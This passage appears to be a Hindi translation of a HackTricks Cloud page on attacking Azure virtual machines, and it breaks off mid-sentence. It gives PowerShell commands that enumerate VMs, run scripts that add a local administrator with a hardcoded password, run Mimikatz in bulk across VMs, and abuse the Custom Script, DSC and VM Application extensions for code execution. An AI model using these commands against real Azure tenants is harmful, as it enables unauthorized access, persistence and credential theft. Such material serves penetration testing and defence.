 # Az - वर्चुअल मशीन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

## मूलभूत जानकारी

एज़्यूर वर्चुअल मशीन एज़्यूर द्वारा प्रदान की जाने वाली कई प्रकार की [ऑन-डिमांड, स्केलेबल कंप्यूटिंग संसाधनों](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) में से एक हैं। आमतौर पर, आप एक वर्चुअल मशीन का चयन करते हैं जब आपको अन्य विकल्पों से अधिक नियंत्रण चाहिए। इस लेख में आपको वर्चुअल मशीन बनाने से पहले आपको क्या विचार करना चाहिए, उसे कैसे बनाएं और उसे कैसे प्रबंधित करें के बारे में जानकारी दी गई है।

## गणना
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **वीएम में कमांड चलाएं**

### **वीएम में एएडी लॉगिन**

यह संभव है कि आप यूजर्स को AzureAD के माध्यम से प्रमाणित करके एक्सेस देने की अनुमति दें। उदाहरण के लिए, एक **लिनक्स वीएम** तक पहुंच करने की कोशिश करने के लिए `ssh username@azure-corp.com@1.1.1.1` (लॉगिन करने के समय उपयोग किए जाने वाले ईमेल के साथ एजरकॉर्प का उपयोग करना महत्वपूर्ण है) आपको एक त्रुटि मिल सकती है जैसे: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

केवल **उन निर्देशों का पालन करें** जो [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) पर जाकर कोड को दर्ज करने के लिए कहते हैं, ईमेल और पासवर्ड को क्रेडेंशियल के रूप में उपयोग करें और आप SSH के माध्यम से कनेक्ट कर सकेंगे (यदि उस उपयोगकर्ता के पास पर्याप्त अनुमतियाँ हैं: `Virtual Machine Administrator Login` या `Virtual Machine User Login` भूमिका).

### **आदेश चलाएँ**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **कस्टम स्क्रिप्ट एक्सटेंशन चलाएं**

एज़्यूर वर्चुअल मशीन (वीएम) एक्सटेंशन छोटे एप्लिकेशन होते हैं जो **एज़्यूर वीएम** पर पोस्ट-डिप्लॉयमेंट कॉन्फ़िगरेशन और स्वचालन **कार्य** प्रदान करते हैं। उदाहरण के लिए, यदि एक वर्चुअल मशीन को सॉफ़्टवेयर स्थापना, एंटीवायरस सुरक्षा, या उसके अंदर स्क्रिप्ट चलाने की क्षमता की आवश्यकता होती है, तो आप एक वीएम एक्सटेंशन का उपयोग कर सकते हैं।

इसलिए, यदि आपके पास इसे लिखने का एक्सेस है, तो आप विचित्र कोड को निष्पादित कर सकते हैं:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### वांछितकॉन्फ़िगरेशनस्थिति

**वांछितकॉन्फ़िगरेशनस्थिति (DSC)** अंसिबल के समान है, लेकिन यह PowerShell के भीतर एक उपकरण है जो कोड के माध्यम से होस्ट को सेटअप करने की अनुमति देता है। DSC के पास अपनी खुद की एक्सटेंशन है जो **कॉन्फ़िगरेशन फ़ाइलें** अपलोड करने की अनुमति देती है। DSC [कॉन्फ़िगरेशन फ़ाइलें](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) सिंटेक्स के मामले में काफी चिड़चिड़ी होती हैं, हालांकि DSC एक्सटेंशन बहुत भोला होता है और किसी भी आदेश को बिना किसी जांच के निष्पादित करेगा, जब तक वह कुछ निश्चित प्रारूप का पालन करता हो, जैसा कि चित्र 5 में दिखाया गया है।

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

इसे **Az PowerShell** फ़ंक्शन [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) के माध्यम से किया जा सकता है। DSC एक्सटेंशन को एक **.PS1** फ़ाइल की आवश्यकता होती है जिसमें एक **फ़ंक्शन** होता है और इसे एक **.zip** फ़ाइल में **पैकेज** किया जाता है। यह वास्तव में सही DSC सिंटेक्स नहीं होता है, इसलिए एक्सटेंशन स्थिति "विफलता" के रूप में पढ़ी जाएगी, हालांकि कोड निष्पादित हो जाएगा। इसकी समस्या यह है कि इसमें कोई आउटपुट नहीं होता है, क्योंकि स्थिति विफलता संदेश के साथ अधिलिखित हो जाती है।

### VM एप्लिकेशन परिभाषाएँ

[VM एप्लिकेशन](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) संसाधन एक तरीका है जिसके माध्यम से एक Azure VM पर **संस्करणवार एप्लिकेशन** को बार-बार डिप्लॉय किया जा सकता है। उदाहरण के लिए, यदि आप एक **प्रोग्राम** बनाते हैं और इसे सभी Azure VM पर संस्करण 1.0 के रूप में डिप्लॉय करते हैं, तो जब आप प्रोग्राम को 1.1 में **अपडेट** करते हैं, तो आप एक ही VM एप्लिकेशन का उपयोग करके एक और परिभाषा बना सकते हैं और अपडेट को किसी भी VM पर बाहर निकाल सकते हैं।\
एक VM पर एक एप्लिकेशन को **डिप्लॉय** करने की क्षमता का मतलब है कि यह एक और रास्ता है **कोड निष्पादन** के लिए। इस विधि का दुष्प्रभाव यह है कि एप्लिकेशन परिभाषा सेटअप करने के लिए [**कुछ कदम**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal) की आवश्यकता होती है, लेकिन इसे Az PowerShell में **`New-AzGalleryApplication`** और **`New-AzGalleryApplicationVersion`** cmdlets का उपयोग करके प्राप्त किया जा सकता है।

यह तकनीक एक **एक्सटेंशन "VMAppExtension"** का उपयोग करके काम करती है जो स्वचालित रूप से VM पर एक एप्लिकेशन लागू करने पर स्थापित होती है। एक्सटेंशन यूआरआई से फ़ाइल को डिस्क पर डाउनलोड करता है जैसा कि एप्लिकेशन का नाम है, यानी यदि एप्लिकेशन का नाम 'AzApplication' है, तो डिस्क पर भी फ़ाइल 'AzApplication' कहलाती है बिना किसी एक्सटेंशन के। इसके लिए, यहां उचित एक्सटेंशन के साथ एप्लिकेशन को नामांकित करने के लिए [REST API कॉल](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) में "ManageActions" फ़ील्ड को कॉन्फ़िगर करने की आवश्यकता होती है। यदि आप पूरा एक एप्लिकेशन नहीं चलाना चाहते हैं, तो यहां उसी REST API विधि में या Azure पोर्टल के माध्यम से भी ManageActions फ़ील्ड का दुरुपयोग करके विचित्र PowerShell आदेश चलाए जा सकते हैं। एक बार सेटअप करने के बाद, परिभाषा चित्र 8 के समान होगी।

<figure><img src="../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

यह निष्पादन तकनीक दुर्भाग्यपूर्ण रूप से धीमी है (एक ऐप या आदेश को निष्पादित करने के लिए लगभग 3-4 मिनट लगते हैं), हालांकि इसके नए होने क
